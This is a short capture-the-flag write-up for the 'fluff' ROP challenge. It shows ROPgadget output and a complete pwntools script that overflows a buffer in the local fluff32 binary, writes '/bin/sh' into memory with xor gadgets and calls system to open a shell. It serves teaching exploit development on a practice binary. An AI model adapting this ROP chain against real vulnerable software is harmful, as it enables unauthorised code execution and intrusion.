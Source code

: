 # 0x06 fluff

In this challenge, we should use other gadgets to write4. By staring at the gadget, I found the interesting rop chain:

```shell
$ ROPgadget --binary fluff32 
Gadgets information
============================================================
0x08048697 : xor byte ptr [ecx], bl ; ret
0x08048689 : xchg edx, ecx ; pop ebp ; mov edx, 0xdefaced0 ; ret
0x08048671 : xor edx, edx ; pop esi ; mov ebp, 0xcafebabe ; ret
0x0804867b : xor edx, ebx ; pop ebp ; mov edi, 0xdeadbabe ; ret
0x080483e1 : pop ebx ; ret
```

With the feature `xx xor 0 = xx`, the write4 chain is still there.

## fluff32

```python
from pwn import *

p = process("./fluff32")

# 0x08048671 : xor edx, edx ; pop esi ; mov ebp, 0xcafebabe ; ret
xor_edx_ret_address = 0x08048671
# 0x080483e1 : pop ebx ; ret
pop_ebx_ret_address = 0x080483e1
# 0x0804867b : xor edx, ebx ; pop ebp ; mov edi, 0xdeadbabe ; ret
xor_edx_ebx_ret_address = 0x0804867b
# 0x08048689 : xchg edx, ecx ; pop ebp ; mov edx, 0xdefaced0 ; ret
xchg_edx_ecx_ret_address = 0x08048689
# 0x080488ba : inc ecx ; ret
inc_ecx_ret_address = 0x080488ba
# 0x08048697 : xor byte ptr [ecx], bl ; ret
write_one_byte_address = 0x08048697

sh = "/bin/sh\x00"
write_start_address = 0x0804a0f0
system_plt_address = 0x08048430

payload = ""
payload += "A" * (0x28+4)
payload += p32(xor_edx_ret_address)
payload += "B" * 4
payload += p32(pop_ebx_ret_address)
payload += p32(write_start_address)
payload += p32(xor_edx_ebx_ret_address)
payload += "B" * 4
payload += p32(xchg_edx_ecx_ret_address)
payload += "B" * 4
for i in xrange(len(sh)):
    payload += p32(pop_ebx_ret_address)
    payload += p32(ord(sh[i]))
    payload += p32(write_one_byte_address)
    payload += p32(inc_ecx_ret_address)
payload += p32(system_plt_address)
payload += "C" * 4
payload += p32(write_start_address)

p.sendline(payload)
p.interactive()
```